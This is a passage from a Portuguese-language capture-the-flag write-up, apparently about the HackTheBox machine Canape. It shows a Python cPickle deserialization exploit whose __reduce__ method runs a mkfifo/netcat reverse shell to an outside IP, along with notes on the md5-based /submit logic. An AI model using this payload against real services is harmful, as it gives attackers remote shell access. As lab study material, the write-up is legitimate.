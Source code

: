 Explicação do /submit

Verificando o que ele está fazendo, ao invés de ser enviado o 'quote' para o cPickle, ele está sendo enviado para um arquivo que está em hash md5. Ou seja, se todos os caracteres estiverem em uma whitelist (lowercase) são enviados para serem processados em md5

`p_id = md5(char + quote).hexdigest()`

Hum... qual a ideia aqui agora então? É abrir um arquivo cujo p_id é um hash md5 das variáveis char e quote, tendo isso em mente adaptamos nosso exploit

exploit.py
```
import os
import cPickle
import requests
from hashlib import md5

class exploit(object):
    def __reduce__(self):
        return (os.system, ('echo homer!; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.117 443 >/tmp/f',))
sc = cPickle.dumps(exploit())
# print sc

char,quote = sc.split("!")

print "[+] ---------- Dividindo Ambos ---------- [+]"
print char
print "[+] ---------- Reverse Shell ---------- [+]"
print quote
```

Executando...

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_a7.png)

Agora que sabemos que ele está dividindo e printando o comando, adicionamos o p_id para ele fazer um md5 no char e no quote e carregamos ele no cPickle, pra ele fazer a serialização (e como sabemos que serializações sempre são problema, vamos ver o que temos)

```
import os
import cPickle
import requests
from hashlib import md5

class exploit(object):
    def __reduce__(self):
        return (os.system, ('echo homer!; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.117 443 >/tmp/f',))
sc = cPickle.dumps(exploit())
# print sc

char,quote = sc.split("!")

p_id = md5(char+quote).hexdigest()
cPickle.loads(char+quote)
```
